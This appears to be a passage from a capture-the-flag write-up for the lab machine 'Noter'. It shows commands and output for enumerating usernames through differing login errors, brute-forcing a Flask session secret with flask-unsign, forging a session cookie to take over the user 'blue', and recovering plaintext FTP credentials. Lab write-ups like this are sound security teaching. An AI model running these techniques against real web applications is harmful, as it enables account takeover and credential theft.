 After some enumeration I finally found that the login validates if the username is correct or not. Trying to login with an invalid user gives the error `Invalid credentials`, however trying a valid user and wrong password gives `Invalid login`. 

With this information we send the login to Burp Intruder, add the two strings to "Grep - Match" and brute force the user using Burp built-in Usernames list. 

![[Pasted image 20220519124126.png]]

Admin is my registered user, however `blue` is not - we found a valid user!


### Step 2
Next we need to find the credentials for user `blue`, we can try to brute force the login which would cause a lot of noice, but we can also try to to crack the JWT (as it's HMAC).

![[Pasted image 20220523090302.png]]

Running `webanalyze` we find that Flask is running on the backend. Reading through HackTricks about Flask we find the tool `Flask-Unsign` which is used to fetch, decode, brute-force and craft session cookies of Flask applications - perfect!

```bash
➜  webanalyze ./webanalyze -host http://10.10.11.160:5000
http://10.10.11.160:5000 (0.1s):
    Bootstrap,  (UI frameworks)
    Flask, 2.0.2 (Web frameworks, Web servers)
    Python,  (Programming languages)
    Python, 3.8.10 (Programming languages)
```

```bash
➜  noter flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZiJ9.YosnvA.92mU6dpP4-5opRXc6h2EhLq8hVI'
{'logged_in': True, 'username': 'asdf'}

➜  noter flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYXNkZiJ9.YosnvA.92mU6dpP4-5opRXc6h2EhLq8hVI' --no-literal-eval
[*] Session decodes to: {'logged_in': True, 'username': 'asdf'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 17152 attempts
b'secret123'

➜  noter flask-unsign --sign --cookie "{'logged_in': True, 'username': 'blue'}" --secret 'secret123'                                                   
eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoiYmx1ZSJ9.Yos0Lw.Lp1b4zGs-GrDuPvgxv2kkkC3qzE
```

Change the browser session cookie and refresh the page, and boom we are `blue`! 
**Note**: As a VIP user we can Import and Export notes.

![[Pasted image 20220523091605.png]]

### Step 3
Blue have two notes and in one of them we find the clear text credentials to the FTP - `blue:blue@Noter!`
But we also find the username `ftp_admin`.
![[Pasted image 20220523091853.png]]
